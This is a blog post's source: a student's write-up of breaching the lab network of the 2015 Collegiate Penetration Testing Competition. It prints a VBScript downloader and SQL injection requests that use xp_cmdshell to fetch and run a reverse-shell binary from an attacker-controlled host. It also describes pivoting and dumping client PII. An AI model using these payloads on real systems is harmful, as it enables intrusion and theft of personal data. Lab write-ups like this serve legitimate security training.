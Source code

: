 ```yaml
---
layout: post
title: Revisiting CPTC 2015
---
```


Back in November, I was a member of the RIT team in the first ever Collegiate Penetration Testing Competition (CPTC). To read more about the event, check out [this post]({% post_url 2015-11-13-cptc-2015 %}). Given that this was the first year of the competition, there were a few compounding technical difficulties that led to a change of plans. Specifically, the infrastructure the competition was hosted on experienced some unpatched bugs that led to nonstop kernel panics, resulting in a backup infrastructure being deployed and used for the remainder of the competition. Due to the quick change of plans, the original intricately-designed infrastructure only saw the light of day for a few hours. The competition directors decided to re-open the infrastructure at a later date for teams to get the full intended experience of the competition.

This write-up details the path I took to breaching a data store in the competition network. Due to time constraints, I wasn’t able to discover all of the vulnerabilities available, so this write-up covers the progress I was able to make.

As part of our contract with the client, FinAck Government Industries, we were provided with a list of IP ranges and domains that would be in-scope for the test. Included in those ranges were the 172.22.16.0/24 and 172.22.17.0/24 networks and the fing.ov and ack.corp domains. The competition network was divided into the FinGov and AckCorp networks, with a few connections between them.

After running a port scan on the in-scope IPs, I discovered a web server on 172.22.16.2 (www.fing.ov) and the domain controller at 172.22.16.1 (ad-dc-01.fing.ov). The 172.22.17.0/24 network was inaccessible from my Kali box’s network position. Browsing to www.fing.ov revealed the company’s website.

[![FinGov website]({% link /resources/cptc2015/fingov1.PNG %})]({% link /resources/cptc2015/fingov1.PNG %})

The search function seemed like a promising target for SQL injection, but ended up not being functional. Continuing through the site, I found a careers page that uses an ‘id’ parameter to retrieve jobs.

[![FinGov careers page]({% link /resources/cptc2015/fingov2.PNG %})]({% link /resources/cptc2015/fingov2.PNG %})

The id parameter was SQL injectable:

[![FinGov SQL injection proof]({% link /resources/cptc2015/fingov3.PNG %})]({% link /resources/cptc2015/fingov3.PNG %})

After some prodding, I discovered the backend database was running MSSQL, and I could use xp_cmdshell to execute commands. To achieve a reverse shell on the database server, I created a binary payload using msfvenom.

[![msfvenom payload creation]({% link /resources/cptc2015/shell1.PNG %})]({% link /resources/cptc2015/shell1.PNG %})

Now I needed to get the binary on to the database server and run it. I spun up Apache on my Kali box to host the binary, and after some trial and error, used the [following VBScript](http://stackoverflow.com/questions/2973136/download-a-file-with-vbs/2973344#2973344) to download the file:

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://172.25.4.28:9001/svchost.exe", False : xHttp.Send
with bStrm : .type = 1 : .open : .write xHttp.responseBody : .savetofile "C:\WINDOWS\Temp\svchost.exe", 2 : end with
```

The script needed to be sent to the database server by exploiting the SQL injection. I used xp_cmdshell to create the script, run it, and then run the downloaded binary. I sent the following requests to accomplish this:

```
172.22.16.2/careers.aspx?id=1; exec xp_cmdshell 'echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP") : dim bStrm: Set bStrm = createobject("Adodb.Stream") : xHttp.Open "GET", "http://172.25.4.28:9001/svchost.exe", False : xHttp.Send : with bStrm : .type = 1 : .open : .write xHttp.responseBody : .savetofile "C:\WINDOWS\Temp\svchost.exe", 2 : end with > C:\WINDOWS\Temp\script.vbs' --

172.22.16.2/careers.aspx?id=1; exec xp_cmdshell 'cscript C:\WINDOWS\Temp\script.vbs' --

172.22.16.2/careers.aspx?id=1; exec xp_cmdshell 'C:\WINDOWS\Temp\svchost.exe' --
```

Soon enough, I had a reverse shell on the MSSQL server (webdb2.fing.ov)!

[![Meterpreter session on webdb2]({% link /resources/cptc2015/shell2.PNG %})]({% link /resources/cptc2015/shell2.PNG %})

Going back to www.fing.ov, I decided to take another look at the exposed ports, and tested its Windows 2003 OS with MS08-067 and MS10-061 exploits. MS10-061 did the trick, and I was in to www.fing.ov with SYSTEM privileges. From www.fing.ov I was able to access the rest of the 172.22.17.0/24 network, and created a SOCKS proxy to tunnel traffic through the exploited web server. Using proxychains, I scanned the 172.22.17.0/24 network but didn’t find any further exploits. I went back to the web server and started picking through the web root until I found the database username and password in the source code of the careers page.

[![SQL credentials in source code]({% link /resources/cptc2015/sqlcreds1.PNG %})]({% link /resources/cptc2015/sqlcreds1.PNG %})

From there, I installed [sql-cli](https://github.com/hasankhan/sql-cli) on Kali and tunneled it through proxychains to log in to MSSQL. Poking through the database led me to the client_data table, where the SSNs, company names, phone numbers, and addresses of FinGov’s clients were stored.

[![PII dump]({% link /resources/cptc2015/sqlcreds2.PNG %})]({% link /resources/cptc2015/sqlcreds2.PNG %})

This was as far as I was able to get on the infrastructure. If I had more time, I would have continued poking at the other machines on the 172.22.17.0/24 network and tried to escalate privileges on webdb2.fing.ov.

Participating in the CPTC was an awesome learning experience. Re-opening the infrastructure for a longer period of time allowed myself and my teammates to focus on the systems and learn on the fly without the pressure of the competition. Every time I sat down to pick up where I left off, I got a little bit further and walked away having learned something new. Looking forward to next year’s competition!
